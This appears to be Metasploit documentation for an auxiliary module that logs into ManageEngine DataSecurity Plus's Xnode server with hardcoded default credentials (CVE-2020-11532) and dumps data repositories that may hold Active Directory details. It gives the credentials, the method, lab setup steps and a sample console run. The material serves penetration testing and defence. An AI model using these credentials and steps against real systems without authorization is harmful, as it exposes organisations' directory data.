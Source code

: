 ## Vulnerable Application
The module exploits default admin credentials for the DataEngine Xnode server in DataSecurity Plus versions prior to 6.0.1 (6011)
in order to dump the contents of Xnode data repositories (tables), which may contain varying amounts of Active Directory information
including domain names, host names, usernames and SIDs.
The module can also be used against patched DataSecurity Plus versions if the correct credentials are provided.

The module's `check` method attempts to authenticate to the remote Xnode server. The default credentials are `atom`:`chegan`.
If the credentials are valid, the module will perform a few requests to the Xnode server to obtain information like the Xnode version.
This is mostly done as a sanity check to ensure the Xnode server is working as expected.

Next, the module will iterate over a list of known Xnode data repositories and perform several requests for each in order to:
- Check if the data repository is configured on the target
- Obtain the total number of records in the data repository
- Obtain both the lowest and the highest value for the ID field (column). These values will be used
to determine the range of possible records to be queried.

If a given data repository exists, the module uses the above information to dump the data repository contents.
The maximum number of records returned for a search query is 10. To overcome this, the module performs series of requests
using the `dr:/dr_search` action, while specifying the ID values for each record.
For example, if the lowest observed ID value is 15 and the highest is 41, the module will perform three requests:
1. A request for the records with ID values 15 to 24
2. A request for the records with ID values 25 to 34
3. A request for the records with ID values 35 to 41
Empty records are ignored.

To view the raw Xnode requests and responses, enter `set VERBOSE true` before running the module.

By default, the module dumps only the data repositories (tables) and fields (columns) specified in the configuration file.
The configuration file can be set via the CONFIG_FILE option, but this is not required because
a default config file exists at `data/exploits/manageengine_xnode/CVE-2020-11532/datasecurity_plus_xnode_conf.yaml`.
The configuration file is then also used to add labels to the values sent by Xnode in response to a query.
This means that for every value in the Xnode response, the module will add the corresponding field name to the results
before writing those to a JSON file in ~/.msf4/loot.

It is also possible to use the DUMP_ALL option to obtain all data in all known data repositories without specifying data field names.
However, in the latter case the data won't be labeled.

This module has been successfully tested against DataSecurity Plus 6.0.1 (6010) running on Windows Server 2012 R2.

## Installation Information
Vulnerable versions of DataSecurity Plus are available [here](https://archives.manageengine.com/data-security/).
All versions from 6000 through 6011 are configured with default Xnode credentials.
However, testing against vulnerable versions from the archives will make data enumeration impossible because
the free trials for those versions do not seem to allow DataSecurity Plus to
actually start collecting data that can then be accessed via Xnode.
However, apart from some configuration changes, Xnode functions the same way on patched versions as it does on vulnerable versions,
so it is possible to test the modules against patched versions as long as the correct credentials are provided.
A free 30-day trial of DataSecurity Plus can be downloaded [here](https://www.manageengine.com/data-security/download.html).
To install, just run the .exe and follow the instructions.
In order to configure a patched ManageEngine DataSecurity Plus instance for testing, follow these steps:
- Open the Xnode config file at `<install_dir>\apps\dataengine-xnode\conf\dataengine-xnode.conf`
- Note down the username and password
- Insert the following line:
```
xnode.connector.accept_remote_request = true
```
To launch DataSecurity Plus, run Command Prompt as administrator and run: `<install_dir>\bin\run.bat`

## Verification Steps
1. Start msfconsole
2. Do: `use auxiliary/gather/manageengine_datasecurity_plus_xnode_enum`
3. Do: `set RHOSTS [IP]`
4. Do: `run`

## Options
### CONFIG_FILE
YAML File specifying the data repositories (tables) and fields (columns) to dump.
### DUMP_ALL
Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.

## Scenarios
### ManageEngine DataSecurity Plus 6.0.1 (6010) on Windows Server 2012
```
msf6 auxiliary(gather/manageengine_datasecurity_plus_xnode_enum) > options 

Module options (auxiliary/gather/manageengine_datasecurity_plus_xnode_enum):

   Name         Current Setting                                                Required  Description
   ----         ---------------                                                --------  -----------
   CONFIG_FILE  /home/wynter/dev/metasploit-framework/data/exploits/manageeng  no        YAML file specifying the data repositories (tables) and fields (columns) to dump
                ine_xnode/CVE-2020-11532/datasecurity_plus_xnode_conf.yaml
   DUMP_ALL     false                                                          no        Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.
   PASSWORD     chegan                                                         yes       Password used to authenticate to the Xnode server
   RHOSTS       192.168.1.41                                                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        29119                                                          yes       The target port (TCP)
   USERNAME     atom                                                           yes       Username used to authenticate to the Xnode server

msf6 auxiliary(gather/manageengine_datasecurity_plus_xnode_enum) > run
[*] Running module against 192.168.1.41

[*] 192.168.1.41:29119 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.1.41:29119 - Target seems to be Xnode.
[+] 192.168.1.41:29119 - The target appears to be vulnerable. Successfully authenticated to the Xnode server.
[*] 192.168.1.41:29119 - Obtained expected Xnode "de_healh" status: "GREEN".
[*] 192.168.1.41:29119 - Target is running Xnode version: "XNODE_1_0_0".
[*] 192.168.1.41:29119 - Obtained Xnode installation path: "C:\Program Files (x86)\ManageEngine\DataSecurity Plus\apps\dataengine-xnode".
[*] 192.168.1.41:29119 - Data repository DSPEmailAuditAttachments is empty.
[*] 192.168.1.41:29119 - Data repository DSPEmailAuditReport is empty.
[*] 192.168.1.41:29119 - Data repository DSPEndpointAuditReport is empty.
[*] 192.168.1.41:29119 - Data repository DSPEndpointClassificationReport is empty.
[*] 192.168.1.41:29119 - Data repository DSPEndpointIncidentReport is empty.
[*] 192.168.1.41:29119 - Data repository DspEndpointPrinterAuditReport is empty.
[*] 192.168.1.41:29119 - Data repository DspEndpointWebAuditReport is empty.
[*] 192.168.1.41:29119 - Data repository DSPFileAnalysisAlerts is empty.
[*] 192.168.1.41:29119 - Data repository RAAlertHistory is empty.
[*] 192.168.1.41:29119 - Data repository RAIncidents is empty.
[*] 192.168.1.41:29119 - Data repository RAViolationRecords is empty.
[*] Auxiliary module execution completed
```
